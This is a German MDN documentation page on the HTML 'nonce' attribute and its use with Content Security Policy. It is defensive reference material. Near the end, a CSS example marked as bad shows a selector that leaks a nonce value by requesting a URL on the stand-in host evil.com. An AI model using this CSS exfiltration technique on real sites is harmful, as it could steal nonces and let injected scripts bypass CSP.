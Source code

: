 ```yaml
---
title: nonce
slug: Web/HTML/Global_attributes/nonce
l10n:
  sourceCommit: 926f83641b980fcda58914649748b0368eeca1cd
---
```


{{HTMLSidebar("Global_attributes")}}

Das **`nonce`** [globale Attribut](/de/docs/Web/HTML/Global_attributes) ist ein Inhaltsattribut, das eine kryptografische Nonce ("number used once", Zahl, die nur einmal verwendet wird) definiert. Es kann von der [Content Security Policy](/de/docs/Web/HTTP/CSP) verwendet werden, um festzulegen, ob ein bestimmter Abruf für ein gegebenes Element erlaubt wird oder nicht.

## Beschreibung

Das `nonce`-Attribut ist nützlich, um bestimmte Elemente, wie zum Beispiel ein bestimmtes Inline-Skript oder Stil-Elemente, auf eine Positivliste zu setzen. Es kann Ihnen helfen, die Verwendung der [CSP](/de/docs/Web/HTTP/CSP) `unsafe-inline`-Direktive zu vermeiden, die _alle_ Inline-Skripte oder -Stile auf eine Positivliste setzen würde.

> [!NOTE]
> Verwenden Sie `nonce` nur in Fällen, in denen Sie keinen anderen Weg haben, als unsichere Inline-Skript- oder -Stilinhalte zu verwenden. Wenn Sie `nonce` nicht benötigen, verwenden Sie es nicht. Wenn Ihr Skript statisch ist, können Sie stattdessen auch einen CSP-Hash verwenden. (Siehe Anwendungshinweise zu [unsicheren Inline-Skripten](/de/docs/Web/HTTP/Headers/Content-Security-Policy/script-src#unsafe_inline_script).)
> Versuchen Sie immer, den vollen Vorteil der [CSP](/de/docs/Web/HTTP/CSP)-Schutzmechanismen zu nutzen und Nonces oder unsichere Inline-Skripte wann immer möglich zu vermeiden.

### Verwendung von nonce zur Positivliste eines `<script>`-Elements

Es gibt einige Schritte, um ein Inline-Skript mit dem Nonce-Mechanismus auf eine Positivliste zu setzen:

#### Werte generieren

Von Ihrem Webserver aus generieren Sie einen zufälligen Base64-codierten String mit mindestens 128 Bits Daten aus einem kryptografisch sicheren Zufallszahlengenerator. Nonces sollten jedes Mal neu generiert werden, wenn die Seite geladen wird (Nonce nur einmal!). Zum Beispiel in Node.js:

```js
const crypto = require("crypto");
crypto.randomBytes(16).toString("base64");
// '8IBTHwOdqNKAWeKl7plt8g=='
```

#### Inline-Skript auf die Positivliste setzen

Die im Backend-Code generierte Nonce sollte nun für das Inline-Skript verwendet werden, das Sie auf eine Positivliste setzen möchten:

```html
<script nonce="8IBTHwOdqNKAWeKl7plt8g==">
  // …
</script>
```

#### Eine Nonce mit einem CSP-Header senden

Schließlich müssen Sie den Nonce-Wert in einem [`Content-Security-Policy`](/de/docs/Web/HTTP/Headers/Content-Security-Policy)-Header senden (fügen Sie `nonce-` voran):

```http
Content-Security-Policy: script-src 'nonce-8IBTHwOdqNKAWeKl7plt8g=='
```

### Zugriff auf Nonces und Verbergen der Nonce

Aus Sicherheitsgründen ist das `nonce`-Inhaltsattribut verborgen (ein leerer String wird zurückgegeben).

```js example-bad
script.getAttribute("nonce"); // returns empty string
```

Die [`nonce`](/de/docs/Web/API/HTMLElement/nonce)-Eigenschaft ist der einzige Weg, um auf Nonces zuzugreifen:

```js example-good
script.nonce; // returns nonce value
```

Das Verbergen der Nonce hilft, Angreifern zu verhindern, dass sie Nonce-Daten über Mechanismen exfiltrieren, die Daten aus Inhaltsattributen erhalten können:

```css example-bad
script[nonce~="whatever"] {
  background: url("https://evil.com/nonce?whatever");
}
```

## Spezifikationen

{{Specifications}}

## Browser-Kompatibilität

{{Compat}}

## Siehe auch

- [`HTMLElement.nonce`](/de/docs/Web/API/HTMLElement/nonce)
- [Content Security Policy](/de/docs/Web/HTTP/CSP)
- CSP: [`script-src`](/de/docs/Web/HTTP/Headers/Content-Security-Policy/script-src)
